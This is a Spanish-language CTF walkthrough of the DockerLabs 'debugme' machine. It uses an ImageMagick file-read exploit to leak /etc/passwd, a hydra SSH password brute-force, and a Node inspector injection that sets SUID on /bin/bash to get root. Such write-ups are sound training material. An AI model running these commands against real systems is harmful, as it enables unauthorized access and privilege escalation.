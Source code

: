 # debugme

Máquina "debugme" de [DockerLabs](https://dockerlabs.es)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Dificil

![debugme](./images/debugme/img/debug.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 23:52:56 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oG escaneo.txt 172.17.0.2
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 172.17.0.2 ()	Status: Up
Host: 172.17.0.2 ()	Ports: 22/open/tcp//ssh//OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)/, 80/open/tcp//http//Apache httpd 2.4.29 ((Ubuntu))/, 443/open/tcp//ssl|http//Apache httpd 2.4.29 ((Ubuntu))/	Ignored State: closed (65532)
# Nmap done at Wed Sep  4 23:53:12 2024 -- 1 IP address (1 host up) scanned in 16.26 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`443: Apache httpd`

**`Puerto 80:`**

![80](./images/debugme/img/80.png)

Ahora hacemos fuzzing para ver si encontramos algun archivo o directorio con algo de información:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2737]
/info.php             (Status: 200) [Size: 118002]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 781486 / 882244 (88.58%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos un `info.php`, que al revisarlo encuentro algo que nos puede ayudar:

![info](./images/debugme/img/info.png)

Ahora que tenemos esta información podemos buscar algún exploit para imagick. Para este caso usaremos [este](https://github.com/voidz0r/CVE-2022-44268).

Una vez descargado el exploit haremos lo que dice el propio repositorio y luego de que nos suelte la imagen, la subiremos a la web. Una vez subida y reziseada nos quedará así:

![image](./images/debugme/img/image.png)

Tocamos click derecho en la imagen roja y nos la guardamos, una vez guardada nos movemos a donde la dejamos y utilizaremos `exiftool` para ver los metadatos. Para hacerlo solo ejecutamos esto:

```css
exiftool <imagen>.png
```

![meta](./images/debugme/img/meta.png)

Como vemos hay un montón de números, pero si hacemos lo que decía el repositorio podremos ver correctamente el `passwd`:

```css
python3 -c 'print(bytes.fromhex("1297.726f6f743a783[SNIP]6d652f6c656e616d3a2f62696e2f62617368.0a."))'
```

Este comando nos soltará en un formato legible el archivo:

```css
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
application:x:1000:1000::/home/application:/bin/bash
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
lenam:x:1001:1001::/home/lenam:/bin/bash
```

## INTRUSION

Ahora que tenemos un usuario, ejecutaremos hydra para el usuario lenam en el ssh:

```css
hydra -l lenam -P <wordlist> ssh://<ip>
```

![hydra](./images/debugme/img/hydra.png)

Ahora que tenemos una contraseña nos conectamos por ssh. **ya estamos dentro**

## ESCALADA DE PRIVILEGIOS

Si ejecutamos `sudo -l` veremos que podemos ejecutar como root el binario `kill`. Para escalar podemos ejecutar `ps aux` y ver si hay algún proceso corriendo del que nos podamos aprovechar:

```css
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.4  64176 15736 ?        Ss   02:37   0:01 /usr/bin/python /usr/bin/supervisord -c /opt/docker/etc/super
root          44  0.0  0.0 216184  2840 ?        S    02:37   0:00 syslog-ng -F --no-caps -p /var/run/syslog-ng.pid
root          45  0.0  0.4 711228 17956 ?        S    02:37   0:00 php-fpm: master process (/etc/php/7.2/fpm/php-fpm.conf)
root          46  0.0  0.1  99288  4152 ?        S    02:37   0:00 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
root          47  0.0  0.0  30108  1280 ?        S    02:37   0:00 /usr/sbin/cron -f
root          53  0.0  0.5 922048 21528 ?        Sl   02:37   0:00 /usr/bin/node /index.js
root          76  0.0  0.0  72304  2000 ?        Ss   02:37   0:00 /usr/sbin/sshd
www-data      78  2.2  0.3 1312076 14596 ?       Sl   02:37   1:17 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
www-data      79  2.2  0.3 1311668 11992 ?       Sl   02:37   1:15 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
applica+     245  0.0  0.4 717096 18332 ?        S    03:01   0:01 php-fpm: pool www
applica+     246  0.0  0.3 713876 14344 ?        S    03:01   0:00 php-fpm: pool www
applica+     247  0.0  0.4 949824 18376 ?        S    03:02   0:00 php-fpm: pool www
root         563  0.0  0.1 104044  7296 ?        Ss   03:33   0:00 sshd: lenam [priv]
lenam        578  0.0  0.1 104044  4376 ?        R    03:33   0:00 sshd: lenam@pts/0
lenam        579  0.0  0.1  20272  3840 pts/0    Ss   03:33   0:00 -bash
lenam        595  0.0  0.0  36016  3328 pts/0    R+   03:34   0:00 ps aux
```

Como vemos el PID 53 está corriendo node, y si buscamos en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) veremos que se puede escalar si ejecutamos lo siguiente:

```css
sudo kill -s SIGUSR1 <PID>
```

Ahora si ejecutamos `netstat -atunop` veremos que el nodjs se ha reiniciado y está abierto el puerto 9229. Ahora ejecutamos:

```css
node inspect 127.0.0.1:9229
```

y luego ejecutamos esto dentro del modo debug:

```css
exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")
```

luego salimos y ponemos `bash -p` y **ya seremos root:**

![root](./images/debugme/img/root.png)

Gracias por leer.
